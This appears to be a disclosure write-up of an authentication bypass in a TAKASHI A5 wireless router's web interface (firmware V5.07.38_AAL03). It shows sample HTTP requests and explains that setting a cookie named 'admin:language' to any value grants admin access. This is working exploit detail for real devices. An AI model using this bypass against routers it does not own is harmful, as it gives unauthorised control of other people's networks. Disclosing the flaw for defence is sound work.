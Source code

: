 #TAKASHI Wireless Instant Router And Repeater Web Application Authentication Bypass<br />
`Software version 	    V5.07.38_AAL03`<br />
`Hardware version 	    V3.0`<br />
`Model no.A5`<br />
This vulnerability is related to how the web application handles sessions for authenticated users. The issue arises due to improper session management, allowing unauthorized users to gain admin-level access.

#Below You Will See A Request Comparison

To understand how this vulnerability works, let's compare an unauthenticated request to an authenticated request.

**An unauthenticated request looks like this:**

POST /LoginCheck HTTP/1.1<br />
Host: 192.168.2.1<br />
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0<br />
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8<br />
Accept-Language: en-US,en;q=0.5<br />
Accept-Encoding: gzip, deflate, br<br />
Referer: `http://192.168.2.1/login.asp`<br />
Content-Type: application/x-www-form-urlencoded<br />
Content-Length: 46<br />
Origin: `http://192.168.2.1`<br />
DNT: 1<br />
Sec-GPC: 1<br />
Connection: keep-alive<br />
Cookie: language=en<br />
Upgrade-Insecure-Requests: 1<br />
Priority: u=0, i<br />

Username=admin&checkEn=0&Password=whatsthepassword

**When the user is authenticated, the request looks like this:**<br />

GET /wireless_basic.asp HTTP/1.1<br />
Host: `192.168.2.1`<br />
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0<br />
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8<br />
Accept-Language: en-US,en;q=0.5<br />
Accept-Encoding: gzip, deflate, br<br />
Referer: `http://192.168.2.1/advance.asp`<br />
DNT: 1<br />
Sec-GPC: 1<br />
Connection: keep-alive<br />
Cookie: language=en; admin:language=en<br />
Upgrade-Insecure-Requests: 1<br />
Priority: u=4<br />


Key Difference<br />

The key difference between the two requests is the presence of the following cookie:<br />

`admin:language=en`

The Vulnerability<br />

This vulnerability is based on the way the application validates session data. By manipulating the admin:language cookie, an unauthenticated user can gain access to authenticated pages.<br />
Exploit Mechanics

To exploit this vulnerability, all an attacker needs to do is set the cookie admin:language with any arbitrary value. The application will trust this cookie and treat the user as an authenticated admin.

`admin:language=<any_value>`

Where <any_value> can be any string,text or numbers. As long as the cookie is given that name, the application will behave as if the user is authenticated.
Conclusion

This vulnerability shows the importance of proper session management.

